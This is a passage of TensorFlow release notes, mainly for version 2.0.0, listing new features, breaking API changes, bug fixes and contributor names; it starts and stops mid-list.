* Delegate application failure leaves interpreter in valid state.
* Add check for correct memory alignment to `MemoryAllocation::MemoryAllocation()`.
* Extracts `NNAPIDelegateKernel` from nnapi_delegate.cc
* Added support for `FusedBatchNormV3` in converter.
* A ragged to dense op for directly calculating tensors.
* Fix accidental quadratic graph construction cost in graph-mode `tf.gradients()`.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

a6802739, Aaron Ma, Abdullah Selek, Abolfazl Shahbazi, Ag Ramesh, Albert Z. Guo, Albin Joy, Alex Itkes, Alex Sergeev, Alexander Pivovarov, Alexey Romanov, alhkad, Amit Srivastava, amoitra, Andrew Lihonosov, Andrii Prymostka, Anuj Rawat, Astropeak, Ayush Agrawal, Bairen Yi, Bas Aarts, Bastian Eichenberger, Ben Barsdell, Benjamin Peterson, bhack, Bharat Raghunathan, Bhavani Subramanian, Bryan Cutler, candy.dc, Cao Zongyan, Captain-Pool, Casper Da Costa-Luis, Chen Guoyin, Cheng Chang, chengchingwen, Chong Yan, Choong Yin Thong, Christopher Yeh, Clayne Robison, Coady, Patrick, Dan Ganea, David Norman, Denis Khalikov, Deven Desai, Diego Caballero, Duncan Dean, Duncan Riach, Dwight J Lyle, Eamon Ito-Fisher, eashtian3, EFanZh, ejot, Elroy Ashtian Jr, Eric Schweitz, Fangjun Kuang, Fei Hu, fo40225, formath, Fred Reiss, Frederic Bastien, Fredrik Knutsson, G. Hussain Chinoy, Gabriel, gehring, George Grzegorz Pawelczak, Gianluca Varisco, Gleb Popov, Greg Peatfield, Guillaume Klein, Gurpreet Singh, Gustavo Lima Chaves, haison, Haraldur TóMas HallgríMsson, HarikrishnanBalagopal, HåKon Sandsmark, I-Hong, Ilham Firdausi Putra, Imran Salam, Jason Zaman, Jason Zavaglia, jayhpark530, jefby, Jeff Daily, Jeffrey Poznanovic, Jekyll Lai, Jeroen BéDorf, Jerry Shih, jerryyin, jiakai, JiangXIAO, Joe Bowser, Joel Shapiro, Johan Gunnarsson, Jojimon Varghese, Joon, Josh Beal, Julian Niedermeier, Jun Wan, Junqin Zhang, Junyuan Xie, Justin Tunis, Kaixi Hou, Karl Lessard, Karthik Muthuraman, Kbhute-Ibm, khanhlvg, Koock Yoon, kstuedem, Kyuwon Kim, Lakshay Tokas, leike666666, leonard951, Leslie-Fang, Leslie-Fang-Intel, Li, Guizi, Lukas Folle, Lukas Geiger, Mahmoud Abuzaina, Manraj Singh Grover, Margaret Maynard-Reid, Mark Ryan, Matt Conley, Matthew Bentham, Matthew Denton, mbhuiyan, mdfaijul, Mei Jie, merturl, MichaelKonobeev, Michal W. Tarnowski, minds, mpppk, musikisomorphie, Nagy Mostafa, Nayana Thorat, Neil, Niels Ole Salscheider, Niklas SilfverströM, Niranjan Hasabnis, ocjosen, olramde, Pariksheet Pinjari, Patrick J. Lopresti, Patrik Gustavsson, per1234, PeterLee, Phan Van Nguyen Duc, Phillip Kravtsov, Pooya Davoodi, Pranav Marathe, Putra Manggala, Qingqing Cao, Rajeshwar Reddy T, Ramon ViñAs, Rasmus Diederichsen, Reuben Morais, richardbrks, robert, RonLek, Ryan Jiang, saishruthi, Saket Khandelwal, Saleem Abdulrasool, Sami Kama, Sana-Damani, Sergii Khomenko, Severen Redwood, Shubham Goyal, Sigrid Keydana, Siju Samuel, sleighsoft, smilu97, Son Tran, Srini511, srinivasan.narayanamoorthy, Sumesh Udayakumaran, Sungmann Cho, Tae-Hwan Jung, Taehoon Lee, Takeshi Watanabe, TengLu, terryky, TheMindVirus, ThisIsIsaac, Till Hoffmann, Timothy Liu, Tomer Gafner, Tongxuan Liu, Trent Lo, Trevor Morris, Uday Bondhugula, Vasileios Lioutas, vbvg2008, Vishnuvardhan Janapati, Vivek Suryamurthy, Wei Wang, Wen-Heng (Jack) Chung, wenxizhu, William D. Irons, winstonq, wyzhao, Xiaoming (Jason) Cui, Xinan Jiang, Xinping Wang, Yann-Yy, Yasir Modak, Yong Tang, Yongfeng Gu, Yuchen Ying, Yuxin Wu, zyeric, 王振华 (Zhenhua Wang)

# Release 2.0.0

## Major Features and Improvements

TensorFlow 2.0 focuses on **simplicity** and **ease of use**, featuring updates like:

* Easy model building with Keras and eager execution.
* Robust model deployment in production on any platform.
* Powerful experimentation for research.
* API simplification by reducing duplication and removing deprecated endpoints.

For details on best practices with 2.0, see [the Effective 2.0 guide](https://www.tensorflow.org/beta/guide/effective_tf2)


For information on upgrading your existing TensorFlow 1.x models, please refer to our [Upgrade](https://medium.com/tensorflow/upgrading-your-code-to-tensorflow-2-0-f72c3a4d83b5) and [Migration](https://www.tensorflow.org/beta/guide/migration_guide) guides. We have also released a collection of [tutorials and getting started guides](https://www.tensorflow.org/beta).

## Highlights

*   TF 2.0 delivers Keras as the central high level API used to build and train
    models. Keras provides several model-building APIs such as Sequential,
    Functional, and Subclassing along with eager execution, for immediate
    iteration and intuitive debugging, and `tf.data`, for building scalable
    input pipelines. Checkout
    [guide](https://www.tensorflow.org/beta/guide/keras/overview) for additional
    details.
*   Distribution Strategy: TF 2.0 users will be able to use the
    [`tf.distribute.Strategy`](https://www.tensorflow.org/beta/guide/distribute_strategy)
    API to distribute training with minimal code changes, yielding great
    out-of-the-box performance. It supports distributed training with Keras
    model.fit, as well as with custom training loops. Multi-GPU support is
    available, along with experimental support for multi worker and Cloud TPUs.
    Check out the
    [guide](https://www.tensorflow.org/beta/guide/distribute_strategy) for more
    details.
*   Functions, not Sessions. The traditional declarative programming model of
    building a graph and executing it via a `tf.Session` is discouraged, and
    replaced with by writing regular Python functions. Using the `tf.function`
    decorator, such functions can be turned into graphs which can be executed
    remotely, serialized, and optimized for performance.
*   Unification of `tf.train.Optimizers` and `tf.keras.Optimizers`. Use
    `tf.keras.Optimizers` for TF2.0. `compute_gradients` is removed as public
    API, use `GradientTape` to compute gradients.
*   AutoGraph translates Python control flow into TensorFlow expressions,
    allowing users to write regular Python inside `tf.function`-decorated
    functions. AutoGraph is also applied in functions used with tf.data,
    tf.distribute and tf.keras APIs.
*   Unification of exchange formats to SavedModel. All TensorFlow ecosystem
    projects (TensorFlow Lite, TensorFlow JS, TensorFlow Serving, TensorFlow
    Hub) accept SavedModels. Model state should be saved to and restored from
    SavedModels.
*   API Changes: Many API symbols have been renamed or removed, and argument
    names have changed. Many of these changes are motivated by consistency and
    clarity. The 1.x API remains available in the compat.v1 module. A list of
    all symbol changes can be found
    [here](https://docs.google.com/spreadsheets/d/1FLFJLzg7WNP6JHODX5q8BDgptKafq_slHpnHVbJIteQ/edit#gid=0).
    *   API clean-up, included removing `tf.app`, `tf.flags`, and `tf.logging`
        in favor of [absl-py](https://github.com/abseil/abseil-py).
*   No more global variables with helper methods like
    `tf.global_variables_initializer` and `tf.get_global_step`.
*   Add toggles `tf.enable_control_flow_v2()` and `tf.disable_control_flow_v2()`
    for enabling/disabling v2 control flow.
*   Enable v2 control flow as part of `tf.enable_v2_behavior()` and
    `TF2_BEHAVIOR=1`.
*   Fixes autocomplete for most TensorFlow API references by switching to use
    relative imports in API `__init__.py` files.
*   Auto Mixed-Precision graph optimizer simplifies converting models to
    `float16` for acceleration on Volta and Turing Tensor Cores. This feature
    can be enabled by wrapping an optimizer class with
    `tf.train.experimental.enable_mixed_precision_graph_rewrite()`.
*   Add environment variable `TF_CUDNN_DETERMINISTIC`. Setting to "true" or "1"
    forces the selection of deterministic cuDNN convolution and max-pooling
    algorithms. When this is enabled, the algorithm selection procedure itself
    is also deterministic.

## Breaking Changes
* Many backwards incompatible API changes have been made to clean up the APIs and make them more consistent.
* Toolchains:
  * TensorFlow 2.0.0 is built using devtoolset7 (GCC7) on Ubuntu 16. This may lead to ABI incompatibilities with extensions built against earlier versions of TensorFlow.
  * Tensorflow code now produces 2 different pip packages: tensorflow_core containing all the code (in the future it will contain only the private implementation) and tensorflow which is a virtual pip package doing forwarding to tensorflow_core (and in the future will contain only the public API of tensorflow). We don't expect this to be breaking, unless you were importing directly from the implementation.
  Removed the `freeze_graph` command line tool; `SavedModel` should be used in place of frozen graphs.

* `tf.contrib`:
  * `tf.contrib` has been deprecated, and functionality has been either migrated to the core TensorFlow API, to an ecosystem project such as [tensorflow/addons](https://www.github.com/tensorflow/addons) or [tensorflow/io](https://www.github.com/tensorflow/io), or removed entirely.
  * Remove `tf.contrib.timeseries` dependency on TF distributions.
  * Replace contrib references with `tf.estimator.experimental.*` for apis in `early_stopping.py`.

* `tf.estimator`:
  * Premade estimators in the tf.estimator.DNN/Linear/DNNLinearCombined family have been updated to use `tf.keras.optimizers` instead of the `tf.compat.v1.train.Optimizer`s. If you do not pass in an `optimizer=` arg or if you use a string, the premade estimator will use the Keras optimizer. This is checkpoint breaking, as the optimizers have separate variables. A checkpoint converter tool for converting optimizers is included with the release,  but if you want to avoid any change, switch to the v1 version of the estimator:  `tf.compat.v1.estimator.DNN/Linear/DNNLinearCombined*`.
  * Default aggregation for canned Estimators is now `SUM_OVER_BATCH_SIZE`. To maintain previous default behavior, please pass `SUM` as the loss aggregation method.
  * Canned Estimators don’t support `input_layer_partitioner` arg in the API. If you have this arg, you will have to switch to `tf.compat.v1 canned Estimators`.
  * `Estimator.export_savedmodel` has been renamed to `export_saved_model`.
  * When saving to SavedModel, Estimators will strip default op attributes. This is almost always the correct behavior, as it is more forwards compatible, but if you require that default attributes to be saved with the model, please use `tf.compat.v1.Estimator`.
  * Feature Columns have been upgraded to be more Eager-friendly and to work with Keras. As a result, `tf.feature_column.input_layer` has been deprecated in favor of `tf.keras.layers.DenseFeatures`. v1 feature columns have direct analogues in v2 except for `shared_embedding_columns`, which are not cross-compatible with v1 and v2. Use `tf.feature_column.shared_embeddings` instead.

* `tf.keras`:
  * `OMP_NUM_THREADS` is no longer used by the default Keras config.  To configure the number of threads, use `tf.config.threading` APIs.
  * `tf.keras.model.save_model` and `model.save` now defaults to saving a TensorFlow SavedModel. HDF5 files are still supported.
  * Deprecated `tf.keras.experimental.export_saved_model` and `tf.keras.experimental.function`. Please use `tf.keras.models.save_model(..., save_format='tf')` and `tf.keras.models.load_model` instead.
  * Layers now default to float32, and automatically cast their inputs to the layer's dtype. If you had a model that used float64, it will probably silently use float32 in TensorFlow 2, and a warning will be issued that starts with `Layer <layer-name>` is casting an input tensor from dtype float64 to the layer's dtype of float32. To fix, either set the default dtype to float64 with `tf.keras.backend.set_floatx('float64')`, or pass `dtype='float64'` to each of the Layer constructors. See `tf.keras.layers.Layer` for more information.

* `tf.lite`:
  * Removed `lite.OpHint`, `lite.experimental`, and `lite.constant` from 2.0 API.
* Tensors are no longer hashable, but instead compare element-wise with `==` and `!=`. Use `tf.compat.v1.disable_tensor_equality()` to return to the previous behavior.
* Performing equality operations on Tensors or Variables with incompatible shapes an exception is no longer thrown. Instead `__eq__` returns False and `__ne__` returns True.
* Removed `tf.string_split` from v2 API.
* Deprecated the use of `constraint=` and `.constraint` with ResourceVariable.
* Add `UnifiedGRU` as the new GRU implementation for tf2.0. Change the default recurrent activation function for GRU from `hard_sigmoid` to `sigmoid`, and `reset_after` to True in 2.0. Historically recurrent activation is `hard_sigmoid` since it is fast than 'sigmoid'. With new unified backend between CPU and GPU mode, since the CuDNN kernel is using sigmoid, we change the default for CPU mode to sigmoid as well. With that, the default GRU will be compatible with both CPU and GPU kernel. This will enable user with GPU to use CuDNN kernel by default and get a 10x performance boost in training. Note that this is checkpoint breaking change. If user want to use their 1.x pre-trained checkpoint, please construct the layer with GRU(recurrent_activation='hard_sigmoid', reset_after=False) to fallback to 1.x behavior.
* `CUDNN_INSTALL_PATH`, `TENSORRT_INSTALL_PATH`, `NCCL_INSTALL_PATH`, `NCCL_HDR_PATH` are deprecated. Use `TF_CUDA_PATHS` instead which supports a comma-separated list of base paths that are searched to find CUDA libraries and headers.

Refer to our [public project status tracker](https://github.com/orgs/tensorflow/projects/4) and [issues tagged with `2.0`](https://github.com/tensorflow/tensorflow/issues?q=is%3Aopen+is%3Aissue+label%3A2.0) on GitHub for insight into recent issues and development progress.

If you experience any snags when using TF 2.0, please let us know at the [TF 2.0 Testing User Group](https://groups.google.com/a/tensorflow.org/forum/?utm_medium=email&utm_source=footer#!forum/testing). We have a support mailing list as well as weekly testing meetings, and would love to hear your migration feedback and questions.


## Bug Fixes and Other Changes

*   `tf.contrib`:

    *   Expose `tf.contrib.proto.*` ops in `tf.io` (they will exist in TF2)

*   `tf.data`:

    *   Add support for TensorArrays to `tf.data Dataset`.
    *   Integrate Ragged Tensors with `tf.data`.
    *   All core and experimental tf.data transformations that input
        user-defined functions can span multiple devices now.
    *   Extending the TF 2.0 support for `shuffle(...,
        reshuffle_each_iteration=True)` and `cache()` to work across different
        Python iterators for the same dataset.
    *   Removing the `experimental_numa_aware` option from `tf.data.Options`.
    *   Add `num_parallel_reads` and passing in a Dataset containing filenames
        into `TextLineDataset` and `FixedLengthRecordDataset`.
    *   Add support for defaulting the value of `cycle_length` argument of
        `tf.data.Dataset.interleave` to the number of schedulable CPU cores.
    *   Promoting `tf.data.experimental.enumerate_dataset` to core as
        `tf.data.Dataset.enumerate`.
    *   Promoting `tf.data.experimental.unbatch` to core as
        `tf.data.Dataset.unbatch`.
    *   Adds option for introducing slack in the pipeline to reduce CPU
        contention, via `tf.data.Options().experimental_slack = True`
    *   Added experimental support for parallel batching to `batch()` and
        `padded_batch()`. This functionality can be enabled through
        `tf.data.Options()`.
    *   Support cancellation of long-running `reduce`.
    *   Now we use `dataset` node name as prefix instead of the op name, to
        identify the component correctly in metrics, for pipelines with repeated
        components.
    *   Improve the performance of datasets using `from_tensors()`.
    *   Promoting `unbatch` from experimental to core API.
    *   Adding support for datasets as inputs to `from_tensors` and
        `from_tensor_slices` and batching and unbatching of nested datasets.

*   `tf.distribute`:

    *   Enable `tf.distribute.experimental.MultiWorkerMirroredStrategy` working
        in eager mode.
    *   Callbacks are supported in `MultiWorkerMirroredStrategy`.
    *   Disable `run_eagerly` and distribution strategy if there are symbolic
        tensors added to the model using `add_metric` or `add_loss`.
    *   Loss and gradients should now more reliably be correctly scaled w.r.t.
        the global batch size when using a `tf.distribute.Strategy`.
    *   Set default loss reduction as `AUTO` for improving reliability of loss
        scaling with distribution strategy and custom training loops. `AUTO`
        indicates that the reduction option will be determined by the usage
        context. For almost all cases this defaults to `SUM_OVER_BATCH_SIZE`.
        When used in distribution strategy scope, outside of built-in training
        loops such as `tf.keras` `compile` and `fit`, we expect reduction value
        to be 'None' or 'SUM'. Using other values will raise an error.
    *   Support for multi-host `ncclAllReduce` in Distribution Strategy.

*   `tf.estimator`:

    *   Replace `tf.contrib.estimator.add_metrics` with
        `tf.estimator.add_metrics`
    *   Use `tf.compat.v1.estimator.inputs` instead of `tf.estimator.inputs`
    *   Replace contrib references with `tf.estimator.experimental.*` for apis
        in early_s in Estimator
    *   Canned Estimators will now use keras optimizers by default. An error
        will be raised if tf.train.Optimizers are used, and you will have to
        switch to tf.keras.optimizers or tf.compat.v1 canned Estimators.
    *   A checkpoint converter for canned Estimators has been provided to
        transition canned Estimators that are warm started from
        `tf.train.Optimizers` to `tf.keras.optimizers`.
    *   Losses are scaled in canned estimator v2 and not in the optimizers
        anymore. If you are using Estimator + distribution strategy + optimikzer
        v1 then the behavior does not change. This implies that if you are using
        custom estimator with optimizer v2, you have to scale losses. We have
        new utilities to help scale losses `tf.nn.compute_average_loss`,
        `tf.nn.scale_regularization_loss`.

*   `tf.keras`:

    *   Premade models (including Linear and WideDeep) have been introduced for
        the purpose of replacing Premade estimators.
    *   Model saving changes
    *   `model.save` and `tf.saved_model.save` may now save to the TensorFlow
        SavedModel format. The model can be restored using
        `tf.keras.models.load_model`. HDF5 files are still supported, and may be
        used by specifying `save_format="h5"` when saving.
    *   Raw TensorFlow functions can now be used in conjunction with the Keras
        Functional API during model creation. This obviates the need for users
        to create Lambda layers in most cases when using the Functional API.
        Like Lambda layers, TensorFlow functions that result in Variable
        creation or assign ops are not supported.
    *   Add support for passing list of lists to the `metrics` argument in Keras
        `compile`.
    *   Add `tf.keras.layers.AbstractRNNCell` as the preferred implementation
        for RNN cells in TF v2. User can use it to implement RNN cells with
        custom behavior.
    *   Keras training and validation curves are shown on the same plot when
        using the TensorBoard callback.
    *   Switched Keras `fit/evaluate/predict` execution to use only a single
        unified path by default unless eager execution has been explicitly
        disabled, regardless of input type. This unified path places an
        eager-friendly training step inside of a `tf.function`. With this
    *   All input types are converted to `Dataset`.
    *   The path assumes there is always a distribution strategy. when
        distribution strategy is not specified the path uses a no-op
        distribution strategy.
    *   The training step is wrapped in `tf.function` unless `run_eagerly=True`
        is set in compile. The single path execution code does not yet support
        all use cases. We fallback to the existing v1 execution paths if your
        model contains the following:
        1.  `sample_weight_mode` in compile
        2.  `weighted_metrics` in compile
        3.  v1 optimizer
        4.  target tensors in compile If you are experiencing any issues because
            of this change, please inform us (file an issue) about your use case
            and you can unblock yourself by setting
            `experimental_run_tf_function=False` in compile meanwhile. We have
            seen couple of use cases where the model usage pattern is not as
            expected and would not work with this change.
    *   output tensors of one layer is used in the constructor of another.
    *   symbolic tensors outside the scope of the model are used in custom loss
        functions. The flag can be disabled for these cases and ideally the
        usage pattern will need to be fixed.
    *   Mark Keras `set_session` as `compat.v1` only.
    *   `tf.keras.estimator.model_to_estimator` now supports exporting to
        `tf.train.Checkpoint format`, which allows the saved checkpoints to be
        compatible with `model.load_weights`.
    *   `keras.backend.resize_images` (and consequently,
        `keras.layers.Upsampling2D`) behavior has changed, a bug in the resizing
        implementation was fixed.
    *   Add an `implementation=3` mode for `tf.keras.layers.LocallyConnected2D`
        and `tf.keras.layers.LocallyConnected1D` layers using `tf.SparseTensor`
        to store weights, allowing a dramatic speedup for large sparse models.
    *   Raise error if `batch_size` argument is used when input is
        dataset/generator/keras sequence.
    *   Update TF 2.0 `keras.backend.name_scope` to use TF 2.0 `name_scope`.
    *   Add v2 module aliases for losses, metrics, initializers and optimizers:
        `tf.losses = tf.keras.losses` & `tf.metrics = tf.keras.metrics` &
        `tf.initializers = tf.keras.initializers` & `tf.optimizers =
        tf.keras.optimizers`.
    *   Updates binary cross entropy logic in Keras when input is probabilities.
        Instead of converting probabilities to logits, we are using the cross
        entropy formula for probabilities.
    *   Added public APIs for `cumsum` and `cumprod` keras backend functions.
    *   Add support for temporal sample weight mode in subclassed models.
    *   Raise `ValueError` if an integer is passed to the training APIs.
    *   Added fault-tolerance support for training Keras model via `model.fit()`
        with `MultiWorkerMirroredStrategy`, tutorial available.
    *   Custom Callback tutorial is now available.
    *   To train with `tf.distribute`, Keras API is recommended over estimator.
    *   `steps_per_epoch` and `steps` arguments are supported with numpy arrays.
    *   New error message when unexpected keys are used in
        sample_weight/class_weight dictionaries
    *   Losses are scaled in Keras compile/fit and not in the optimizers
        anymore. If you are using custom training loop, we have new utilities to
        help scale losses `tf.nn.compute_average_loss`,
        `tf.nn.scale_regularization_loss`.
    *   `Layer` apply and add_variable APIs are deprecated.
    *   Added support for channels first data format in cross entropy losses
        with logits and support for tensors with unknown ranks.
    *   Error messages will be raised if `add_update`, `add_metric`, `add_loss`,
        activity regularizers are used inside of a control flow branch.
    *   New loss reduction types:
    *   `AUTO`: Indicates that the reduction option will be determined by the
        usage context. For almost all cases this defaults to
        `SUM_OVER_BATCH_SIZE`. When used with `tf.distribute.Strategy`, outside
        of built-in training loops such as `tf.keras` `compile` and `fit`, we
        expect reduction value to be `SUM` or `NONE`. Using `AUTO` in that case
        will raise an error.
    *   `NONE`: Weighted losses with one dimension reduced (axis=-1, or axis
        specified by loss function). When this reduction type used with built-in
        Keras training loops like `fit`/`evaluate`, the unreduced vector loss is
        passed to the optimizer but the reported loss will be a scalar value.
    *   `SUM`: Scalar sum of weighted losses. 4. `SUM_OVER_BATCH_SIZE`: Scalar
        `SUM` divided by number of elements in losses. This reduction type is
        not supported when used with `tf.distribute.Strategy` outside of
        built-in training loops like `tf.keras` `compile`/`fit`.
    *   Wraps losses passed to the `compile` API (strings and v1 losses) which
        are not instances of v2 `Loss` class in `LossWrapper` class. => All
        losses will now use `SUM_OVER_BATCH_SIZE` reduction as default.
    *   `model.add_loss(symbolic_tensor)` should work in ambient eager.
    *   Update metric name to always reflect what the user has given in compile.
        Affects following cases
    *   When name is given as 'accuracy'/'crossentropy'
    *   When an aliased function name is used eg. 'mse'
    *   Removing the `weighted` prefix from weighted metric names.
    *   Allow non-Tensors through v2 losses.
    *   Add v2 sparse categorical crossentropy metric.
    *   Add v2 APIs for `AUCCurve` and `AUCSummationMethod` enums.
    *   `add_update` can now be passed a zero-arg callable in order to support
        turning off the update when setting `trainable=False` on a Layer of a
        Model compiled with `run_eagerly=True`.
    *   Standardize the LayerNormalization API by replacing the args `norm_axis`
        and `params_axis` with `axis`.
    *   Fixed critical bugs that help with DenseFeatures usability in TF2

*   `tf.lite`:

    *   Added evaluation script for `COCO` minival
    *   Add delegate support for `QUANTIZE`.
    *   Add `GATHER` support to NN API delegate.
    *   Added support for TFLiteConverter Python API in 2.0. Contains functions
        from_saved_model, from_keras_file, and from_concrete_functions.
    *   Add `EXPAND_DIMS` support to NN API delegate TEST.
    *   Add `narrow_range` attribute to QuantizeAndDequantizeV2 and V3.
    *   Added support for `tflite_convert` command line tool in 2.0.
    *   Post-training quantization tool supports quantizing weights shared by
        multiple operations. The models made with versions of this tool will use
        INT8 types for weights and will only be executable interpreters from
        this version onwards.
    *   Post-training quantization tool supports fp16 weights and GPU delegate
        acceleration for fp16.
    *   Add delegate support for `QUANTIZED_16BIT_LSTM`.
    *   Extracts `NNAPIDelegateKernel` from nnapi_delegate.cc

*   TensorRT

    *   Add TensorFlow 2.0-compatible `TrtGraphConverterV2` API for TensorRT
        conversion. TensorRT initialization arguments are now passed wrapped in
        a named-tuple, `TrtConversionParams`, rather than as separate arguments
        as in `TrtGraphConverter`.
    *   Changed API to optimize TensorRT engines during graph optimization. This
        is now done by calling `converter.build()` where previously
        `is_dynamic_op=False` would be set.
    *   `converter.convert()` no longer returns a `tf.function`. Now the
        function must be accessed from the saved model.
    *   The `converter.calibrate()` method has been removed. To trigger
        calibration, a `calibration_input_fn` should be provided to
        `converter.convert()`.

*   Other:

    *   Fix accidental quadratic graph construction cost in graph-mode
        `tf.gradients()`.
    *   ResourceVariable's gather op supports batch dimensions.
    *   ResourceVariable support for `gather_nd`.
    *   `ResourceVariable` and `Variable` no longer accepts `constraint` in the
        constructor, nor expose it as a @property.
    *   Added gradient for `SparseToDense` op.
    *   Expose a flag that allows the number of threads to vary across Python
        benchmarks.
    *   `image.resize` in 2.0 now supports gradients for the new resize kernels.
    *   `image.resize` now considers proper pixel centers and has new kernels
        (incl. anti-aliasing).
    *   Renamed `tf.image` functions to remove duplicate "image" where it is
        redundant.
    *   Variadic reduce is supported on CPU Variadic reduce is supported on CPU
    *   Remove unused `StringViewVariantWrapper`.
    *   Delete unused `Fingerprint64Map` op registration
    *   Add broadcasting support to `tf.matmul`.
    *   Add C++ Gradient for `BatchMatMulV2`.
    *   Add `tf.math.cumulative_logsumexp` operation.
    *   Add ellipsis (...) support for `tf.einsum()`.
    *   Add expand_composites argument to all `nest.*` methods.
    *   Added `strings.byte_split`.
    *   Add a new "result_type" parameter to `tf.strings.split`.
    *   Add name argument to `tf.string_split` and `tf.strings_split`.
    *   Extend `tf.strings.split` to support inputs with any rank.
    *   Added `tf.random.binomial`.
    *   Added `key` and `skip` methods to `random.experimental.Generator`.
    *   Extend `tf.function` with basic support for CompositeTensors arguments
        (such as `SparseTensor` and `RaggedTensor`).
    *   `parallel_for.pfor`: add converters for Softmax, LogSoftmax, IsNaN, All,
        Any, and MatrixSetDiag.
    *   `parallel_for`: add converters for LowerTriangularSolve and Cholesky.
    *   `parallel_for`: add converters for `LogMatrixDeterminant` and
        `MatrixBandPart`.
    *   `parallel_for`: Add converter for `MatrixDiag`.
    *   `parallel_for`: Add converters for `OneHot`, `LowerBound`, `UpperBound`.
    *   `parallel_for`: add converter for `BroadcastTo`.
    *   Add `pfor` converter for `Squeeze`.
    *   Add `RaggedTensor.placeholder()`.
    *   Add ragged tensor support to `tf.squeeze`.
    *   Update RaggedTensors to support int32 row_splits.
    *   Allow `LinearOperator.solve` to take a `LinearOperator`.
    *   Allow all dtypes for `LinearOperatorCirculant`.
    *   Introduce MaxParallelism method
    *   Add `LinearOperatorHouseholder`.
    *   Adds Philox support to new stateful RNG's XLA path.
    *   Added `TensorSpec` support for CompositeTensors.
    *   Added `tf.linalg.tridiagonal_solve` op.
    *   Added partial_pivoting input parameter to `tf.linalg.tridiagonal_solve`.
    *   Added gradient to `tf.linalg.tridiagonal_solve`.
    *   Added `tf.linalg.tridiagonal_mul op`.
    *   Added GPU implementation of `tf.linalg.tridiagonal_matmul`.
    *   Added `LinearOperatorToeplitz`.
    *   Upgraded LIBXSMM to version 1.11.
    *   Uniform processing of quantized embeddings by Gather and EmbeddingLookup
        Ops.
    *   Correct a misstatement in the documentation of the sparse softmax cross
        entropy logit parameter.
    *   Add `tf.ragged.boolean_mask`.
    *   `tf.switch_case` added, which selects a branch_fn based on a
        branch_index.
    *   The C++ kernel of gather op supports batch dimensions.
    *   Fixed default value and documentation for `trainable` arg of
        tf.Variable.
    *   `EagerTensor` now supports numpy buffer interface for tensors.
    *   This change bumps the version number of the `FullyConnected` Op to 5.
    *   Added new op: `tf.strings.unsorted_segment_join`.
    *   Added HW acceleration support for `topK_v2`.
    *   CloudBigtable version updated to v0.10.0 BEGIN_PUBLIC CloudBigtable
        version updated to v0.10.0.
    *   Expose `Head` as public API.
    *   Added `tf.sparse.from_dense` utility function.
    *   Improved ragged tensor support in `TensorFlowTestCase`.
    *   Added a function `nested_value_rowids` for ragged tensors.
    *   Added `tf.ragged.stack`.
    *   Makes the a-normal form transformation in Pyct configurable as to which
        nodes are converted to variables and which are not.
    *   `ResizeInputTensor` now works for all delegates.
    *   `tf.cond` emits a StatelessIf op if the branch functions are stateless
        and do not touch any resources.
    *   Add support of local soft device placement for eager op.
    *   Pass partial_pivoting to the `_TridiagonalSolveGrad`.
    *   Add HW acceleration support for `LogSoftMax`.
    *   Add guard to avoid acceleration of L2 Normalization with input rank != 4
    *   Fix memory allocation problem when calling `AddNewInputConstantTensor`.
    *   Delegate application failure leaves interpreter in valid state
    *   `tf.while_loop` emits a StatelessWhile op if the cond and body functions
        are stateless and do not touch any resources.
    *   `tf.cond`, `tf.while` and if and while in AutoGraph now accept a
        nonscalar predicate if has a single element. This does not affect non-V2
        control flow.
    *   Fix potential security vulnerability where decoding variant tensors from
        proto could result in heap out of bounds memory access.
    *   Only create a GCS directory object if the object does not already exist.
    *   Introduce `dynamic` constructor argument in Layer and Model, which
        should be set to `True` when using imperative control flow in the `call`
        method.
    *   Begin adding Go wrapper for C Eager API.
    *   XLA HLO graphs can be inspected with interactive_graphviz tool now.
    *   Add dataset ops to the graph (or create kernels in Eager execution)
        during the python Dataset object creation instead doing it during
        Iterator creation time.
    *   Add `batch_dims` argument to `tf.gather`.
    *   The behavior of `tf.gather` is now correct when `axis=None` and
        `batch_dims<0`.
    *   Update docstring for gather to properly describe the non-empty
        `batch_dims` case.
    *   Removing of dtype in the constructor of initializers and partition_info
        in call.
    *   Add `tf.math.nextafter` op.
    *   Turn on MKL-DNN contraction kernels by default. MKL-DNN dynamically
        dispatches the best kernel implementation based on CPU vector
        architecture. To disable them, build with
        `--define=tensorflow_mkldnn_contraction_kernel=0`.
    *   `tf.linspace(start, stop, num)` now always uses "stop" as last value
        (for num > 1)
    *   Added top-k to precision and recall to keras metrics.
    *   Add a ragged size op and register it to the op dispatcher
    *   Transitive dependencies on :`pooling_ops` were removed. Some users may
        need to add explicit dependencies on :`pooling_ops` if they reference
        the operators from that library.
    *   Add `CompositeTensor` base class.
    *   Malformed gif images could result in an access out of bounds in the
        color palette of the frame. This has been fixed now
    *   Add templates and interfaces for creating lookup tables
    *   `Tensor::UnsafeCopyFromInternal` deprecated in favor
        `Tensor::BitcastFrom`.
    *   In `map_vectorization` optimization, reduce the degree of parallelism in
        the vectorized map node.
    *   Add variant wrapper for `absl::string_view`.
    *   Add OpKernels for some stateless maps.
    *   DType is no longer convertible to an int. Use `dtype.as_datatype_enum`
        instead of `int(dtype)` to get the same result.
    *   Support both binary and -1/1 label input in v2 hinge and squared hinge
        losses.
    *   Added `LinearOperator.adjoint` and `LinearOperator.H` (alias).
    *   Expose CriticalSection in core as `tf.CriticalSection`.
    *   Enhanced graphviz output.
    *   Add opkernel templates for common table operations.
    *   Fix callbacks do not log values in eager mode when a deferred build
        model is used.
    *   `SignatureDef` util functions have been deprecated.
    *   Update `Fingerprint64Map` to use aliases
    *   Add legacy string flat hash map op kernels.
    *   Add support for `add_metric` in the graph function mode.
    *   Updating cosine similarity loss - removed the negate sign from cosine
        similarity.
    *   Changed default for gradient accumulation for TPU embeddings to true.
    *   Adds summary trace API for collecting graph and profile information.
    *   The `precision_mode` argument to `TrtGraphConverter` is now case
        insensitive.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

1e100, a6802739, 4d55397500, a6802739, Abdullah Selek, abenmao, Abolfazl
Shahbazi, Adam Richter, Adam Weiss, Ag Ramesh, Alan Du, Albin Joy, Alex, Alex
Itkes, Alex Sergeev, Alexander Pivovarov, Alexey Romanov, alhkad, Aman Patel,
Amit, Amit Kumar Jaiswal, Amit Srivastava, amoitra, Andreas Eberle, Andrew
Lihonosov, Andy Craze, Anshuman Tripathy, Anthony Hsu, Anthony Platanios, Anuj
Rawat, arp95, Arpit Shah, Armen Poghosov, armenpoghosov, Astropeak, Ashwin
Ramaswami, Arpit Shah, Augustina Ragwitz, Aurelien Geron, AuréLien Geron,
avasid, aweers, awesomealex1, Ayush Agrawal, Bas Aarts, Bastian Eichenberger,
